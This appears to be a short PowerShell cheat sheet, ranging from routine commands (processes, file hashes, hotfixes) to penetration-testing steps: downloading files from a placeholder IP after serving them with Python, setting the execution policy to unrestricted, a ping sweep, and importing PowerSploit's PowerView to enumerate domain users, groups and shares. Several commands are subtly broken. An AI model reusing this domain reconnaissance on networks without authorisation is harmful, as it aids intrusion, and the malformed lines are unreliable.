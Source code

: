 Run something.
 ```PowerShell
 Start-Process Notepad.exe
  ```

Show running processes. Leave off -name if you want to see them all.
```PowerShell
Get-process -name Notepad.exe
```

Wanna keep a CSV file of any results then pipe it through the CSV gnerator?
```PowerShell
| Export-CSV filename.csv
```

Read a file from the command line like cat in Linux?

```PowerShell
Get-Content filename.txt
```


Copy and Move commands.
```PowerShell
Copy-Item 
Move-Item
```

Want to submit a hash to virtustotal or some other reason?
```PowerShell
Get-FileHash -algorithm SHA256 filename.xxx
```


File download.
Just a reminder on creating web server with python.
```Shell
python -m http.server 7331
```

Now to download.

```PowerShell
(NewObject System.Net.WebClient) .downloadfile('http://xxx.xxx.xxx.xxx/myfile.xxx' 'myfile.xxx')
```


Or you can use.

 ```powershell
 Invoke-WebRequest "http://xxx.xxx.xxx.xxx/file.xxx" -outfile "file.xxx"
```


Execution Policy.
```powershell
Get-ExecutionPolicy -list
Set-ExecutionPolicy unrestricted
```

List Windows updates.
```PowerShell
Get-HotFix
```

Format the list.
```powershell
Get-HotFix | Format-List | findstr InstalledOn
```

Looking at files more closely.
 ```powershell
dir | Format-List *
```
 

Pipe anything through outfile gives you a file to view later.
```powershell
 | Out-File file.xxx
```

Lets see what is alive on the network.
```powershell
1..15 | ${echo "10.0.0.$_": ping -n 1 10.0.0.$_ _  | Select-String ttl} 
```

Powerview script.
[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 ```powershell
Import-Module .\powerview.ps1
```

Now we can use the powerview commands.

```PowerShell
Get-NetDomainController
Get-NetUser
Get-NetUser | select -ExpandProperty lastlogon
Get-NetComputer
Get-NetGroup
Get-NetGroupMember
Find-DomainShare
Get-NetGPO
```


